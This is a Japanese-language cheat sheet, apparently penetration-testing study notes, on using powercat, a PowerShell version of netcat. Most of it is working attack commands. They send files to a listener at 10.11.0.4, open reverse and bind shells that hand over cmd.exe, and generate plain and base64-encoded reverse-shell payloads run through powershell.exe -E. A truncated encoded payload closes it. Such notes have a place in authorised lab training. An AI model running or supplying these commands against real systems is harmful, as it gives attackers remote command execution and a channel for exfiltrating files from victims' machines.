

# powercat

PowerShell版のnetcat.

### インストール

```bash
# kali
apt install powercat
```

※`/usr/share/windows-resources/powercat`に配置される

### PowerShellへのインポート

```
. .\powercat.ps1
```

```powershell
powercat -h
```

https://learn.microsoft.com/ja-jp/powershell/scripting/learn/glossary?view=powershell-7.3



### ファイル転送

```bash
# 受信側
sudo nc -lnvp 443 > receiving_powercat.ps1
```

```powershell
# 送信側
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

* cオプション：クライアントモード
* -i：リモート転送するローカルファイル


### リバースシェル

```bash
# 受信側
sudo nc -lvp 443
```

```powershell
# sender
powercat -c 10.11.0.4 -p 443 -e cmd.exe
```


### バインドシェル

```powershell
# sender
powercat -l -p 443 -e cmd.exe
```

* -lオプション：リスナーを作成

```bash
# reciever
nc 10.11.0.22 443
```


### ペイロード

```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1
```


### ペイロード（エンコード）

```powershell
powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

*  -ge オプション：エンコード版のペイロード

作成したペイロードはpowershell.exeに-E(EncodedCommand) オプションを付与し文字列全体を渡して実行する

```cmd
# sender
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAYQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzACkACgAgACAAIAAgACQAYwAsACQAbAAsACQAcAAsACQAdAAgAD0AIAAkAEYAdQBuAGMAUwBlAHQAdQBwAFYAYQByAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAG8AYgBhAGwAOgBWAGUAcgBiAG8AcwBlACkAewAkAFYAZQByAGIAbwBzAGUAIAA9ACAAJABUAHIAdQBlAH0ACgAgACAAIAAgACQARgB1AG4AYwBWAGEAcgBzACAAPQAgAEAAewB9AAoAIAAgACAAIABpAGYAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFYAYQByAHMAWwAiAGwAIgBdACAAPQAgACQARgBhAGwAcwBlAAoAIAAgACAAIAAgACAAJABTAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAGMAcABDAGwAaQBlAG4AdAAKACAAIAAgACA
```

```bas
# reciever
sudo nc -lnvp 443
```

